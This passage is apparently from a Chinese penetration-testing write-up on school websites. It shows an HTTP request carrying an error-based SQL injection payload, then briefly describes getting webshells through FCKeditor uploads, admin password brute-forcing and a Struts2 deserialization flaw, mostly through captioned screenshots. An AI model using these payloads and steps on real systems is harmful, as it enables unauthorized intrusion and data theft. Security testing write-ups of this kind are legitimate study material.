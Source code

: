 ```php
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=e9f143b9-3c3d-4acb-96a4-93c7367a98e9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 75

params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```

6、FCKeditor上传文件GetShell
=======================

1、扫描目录发现存在FCKeditor目录

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666751266790-5f2d4764-4b13-4631-b1c1-42e0d6d088a7.png)

2、直接找到上传目录

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666751284531-abae4065-7838-4bf5-924f-8d104c2fb223.png)

3、上传aspx木马

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666751504910-d5285488-0339-462b-ada1-1346eaa68abf.png)

成功连接

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666784664171-01d8a4d6-e95b-46af-b8b5-327d54763a7f.png)

7、任意文件上传
========

根据学校名称及域名进行编排密码本，爆破登录admin账号

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666776557415-4feb5ad0-efd9-481f-bed9-319f2b8aad15.png)

上传点任意文件上传GetShell

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666785479063-5b0d697a-e7d0-4f63-8a19-0f8101636156.png)

8、S2反序列化漏洞GetShell
==================

1、目标网站存在S2框架

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666776108230-74b6480c-66a3-43db-b0bd-62246f03e843.png)

2、直接使用工具进行扫描，进而获取权限进行内网渗透

![](https://cdn.nlark.com/yuque/0/2022/png/2856486/1666776138378-0e6ce6a1-96fc-4f65-8e78-97a047dd1366.png)

9、逻辑漏洞
======

找回密码
----
